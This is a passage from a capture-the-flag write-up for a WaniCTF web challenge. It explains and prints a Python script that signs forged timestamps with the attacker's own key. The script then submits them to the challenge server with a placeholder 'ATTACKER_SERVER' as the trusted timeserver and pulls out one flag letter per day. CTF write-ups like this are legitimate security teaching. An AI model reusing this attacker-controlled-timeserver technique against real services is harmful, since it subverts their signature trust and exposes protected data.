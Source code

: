 Next, we'll use a script that will loop through all 12 characters (days) of the flag, starting from yesterday (`i - 1`).

For each day, the script generates and signs a timestamp (using our private key) and then submits it to the content-server, with our ATTACKER_SERVER provided as the `timeserver` address.

The response is extracted with BeautifulSoup and then printed.

{% code overflow="wrap" %}
```python
import requests
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS
from bs4 import BeautifulSoup

def load_private_key():
    with open('privkey', 'rb') as f:
        return ECC.import_key(f.read())

def generate_timestamp_and_sign(timestamp):
    key = load_private_key()
    h = SHA256.new(timestamp.encode('utf-8'))
    signer = DSS.new(key, 'fips-186-3')
    signature = signer.sign(h)
    return timestamp, signature.hex()

def send_timestamp_and_signature(timestamp, signature, timeserver):
    url = 'https://web-one-day-one-letter-content-lz56g6.wanictf.org/'
    payload = {
        "timestamp": timestamp,
        "signature": signature,
        "timeserver": timeserver
    }
    headers = {
        'Content-Type': 'application/json',
    }
    response = requests.post(url, json=payload, headers=headers)
    return response.text

def extract_flag(response_text):
    soup = BeautifulSoup(response_text, 'html.parser')
    flag_paragraph = soup.find_all('p')[1]
    flag = flag_paragraph.text.split(' ')[2].strip()
    return flag

if __name__ == "__main__":
    timeserver = "ATTACKER_SERVER"
    for i in range(12):  # 12 days
        timestamp = str(int(time.time()) + (i - 1) * 24 * 60 * 60)
        timestamp_str, signature_hex = generate_timestamp_and_sign(timestamp)
        response_text = send_timestamp_and_signature(
            timestamp_str, signature_hex, timeserver)
        flag = extract_flag(response_text)
        print(f"Flag for timestamp {timestamp_str}: {flag}")
```
{% endcode %}
